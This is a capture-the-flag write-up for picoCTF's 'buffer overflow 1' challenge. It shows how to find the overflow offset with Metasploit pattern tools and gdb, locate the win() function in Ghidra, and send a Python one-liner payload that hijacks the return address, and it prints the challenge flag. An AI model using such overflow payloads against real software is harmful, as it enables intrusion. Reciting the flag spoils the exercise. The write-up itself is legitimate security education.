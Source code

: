 # buffer overflow 1
## Description
>Okay now you're cooking! This time can you overflow the buffer and return to
>the flag function in this
>[program](https://2018shell.picoctf.com/static/f8fb1e2f61e93367783d7831e70ef1a2/vuln)? You can find it in /problems/buffer-overflow-1_4_9d46ad1b74894db5d4831b91e19ee709 on the shell server.
## Solution
[Metasploit](https://github.com/rapid7/metasploit-framework) has a few tools
called pattern_create.rb and pattern_offset.rb that make this challenge
relatively easy.

First create a pattern:
***
    $ ./pattern_create.rb -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
***
Then execute the program in gdb, using the pattern as the input:
***
    $ gdb vuln
    (gdb) run
    Please enter your string:
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
    Okay, time to return... Fingers Crossed... Jumping to 0x35624134

    Program received signal SIGSEGV, Segmentation fault.
    0x35624134
***
Great! You were able to crash the program. Now use the address 0x35624134 with
pattern offset to find where in our input it crashed:
***
    $ ./pattern_offset.rb -q 0x35624134
    [*] Exact match at offset 44
***
Perfect, so now we know the program will crash if we give it input of 44
characters or more. Now we just need to figure out the address of the win()
function. To do this I simply opened up vuln in Ghidra, but you can also use
objdump, r2, IDA, etc. I was able to find that the address of the in() function
is 0x080485cb. Keeping in mind the endianness of this address, we can now
contruct our payload and deliver it to the vulnerable program:
***
    $ python -c "print('A' * 44 + '\xcb\x85\x04\x08')" | ./vuln
    Please enter your string:
    Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
    picoCTF{addr3ss3s_ar3_3asyd69e032d}
***

